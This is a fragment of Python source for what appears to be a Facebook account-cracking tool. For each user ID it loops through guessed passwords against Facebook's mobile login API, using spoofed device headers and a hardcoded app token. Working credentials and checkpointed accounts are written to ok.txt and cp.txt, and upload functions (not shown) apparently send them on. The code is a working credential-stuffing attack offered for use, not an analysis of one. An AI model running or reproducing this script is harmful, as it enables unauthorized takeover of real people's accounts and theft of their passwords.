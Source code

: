 		); sys.stdout.flush()

		for pw in pwx:

			pw = pw.lower()

			ses = requests.Session()

			headers = {

				"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), 

				"x-fb-sim-hni": str(random.randint(20000, 40000)), 

				"x-fb-net-hni": str(random.randint(20000, 40000)), 

				"x-fb-connection-quality": "EXCELLENT",

				"x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA",

				"user-agent": ua, 

				"content-type": "application/x-www-form-urlencoded", 

				"x-fb-http-engine": "Liger"

			}

			response = ses.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(uid)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=headers) 

			if "session_key" in response.text and "EAAA" in response.text:

				print("\r \033[0;92m[Alamgir-OK] %s|%s\033[0;97m         "%(uid, pw))

				self.ok.append("%s|%s"%(uid, pw))

				open("ok.txt","a").write(" [Alamgir-OK] %s|%s\n"%(uid, pw))

				uploadoks()

				break

			elif "www.facebook.com" in response.json()["error_msg"]:

				print("\r \033[0;91m[Alamgir-CP] %s|%s\033[0;97m         "%(uid, pw))

				self.cp.append("%s|%s"%(uid, pw))

				open("cp.txt","a").write(" [Alamgir-CP] %s|%s\n"%(uid, pw))

				uploadcps()

				break

			else:

				continue

		self.loop +=1

if len(sys.argv) == 2:

	if sys.argv[1] == "--help" or sys.argv[1] == "-h":

		helpnote()

	else:

		Main()
